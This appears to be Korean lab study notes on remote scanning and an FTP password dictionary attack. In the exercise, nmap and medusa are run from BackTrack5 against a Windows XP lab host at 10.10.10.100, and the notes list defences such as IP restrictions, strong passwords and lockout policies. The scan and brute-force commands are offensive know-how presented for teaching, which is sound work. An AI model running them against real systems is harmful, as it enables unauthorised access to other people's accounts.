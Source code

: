 - ping test 성공하면 세팅 완료

---
---
---
## 원격 스캔 공격

### Scan 공격 대응 방안
- 불필요한 서비스 포트가 open되어 있는 점검하고 Disable 조치
    - 특히 관리적 접근 telnet, ftp, 원격터미널 등 ID/PW 입력하는 서비스 점검 필요
- 방화벽, 침입탐지, 침입방지 등의 솔루션을 이용하여 방어/차단 조치
    - 불필요한 서비스 접근 차단하고 스캔 응답지연 방법도 사용 권장
    - IDS/IPS 장비를 이용한 불법 스캔 탐지 및 차단


---
### Dictionary attack 공격 실습


#### windows XP
- 알 FTP
- 서버 시작
- Wireshark 시작

#### backtrack5
- ```nmap -sT 10.10.10.100```   
어떤 서비스가 열려있는지 확인 가능
- ```ftp 10.10.10.100```
- ```gedit password.txt```   
    - 열어서 ftp, ftp123, test111 등 여러 비밀번호 추가하고 저장
- ```medusa -M ftp -h 10.10.10.100 -u ftp -P password.txt```
    - -M 공격 프로토콜   
    - -h host IP   
    - -u ID   
    - -P PW dictionary
- 비밀번호를 찾으면 SUCCESS 뜨고 멈춤

#### windows XP
- Wireshark 에서 PW Dic 공격중인 것을 확인 가능

---
### PW Dictionary attack 대응 방안
- 시스템 로그인 할 수 있는 IP주소 지정(관리자 IP대역 지정)
    - 장비에 Telnet, SSH 접근하려는 관리자 IP주소를 지정하여 ACL 설정
- 단순 ID/PW 사용을 금지하고 암호 강도가 높은 패스워드를 강제화 사용
    - admin, root, test 등 단순 계정은 사용 금지
    - 영문자 대/소문자 및 숫자, 특수기호 등을 혼합하여 8자리 이상 사용
- 로그인 실패 횟수를 지정하여 일정시간 동안 접근 금지 시키는 정책을 적용
    - 일정 기간 동안 로그인 실패 횟수 지정(예. 10분동안 5회 패스워드 틀릴 경우)
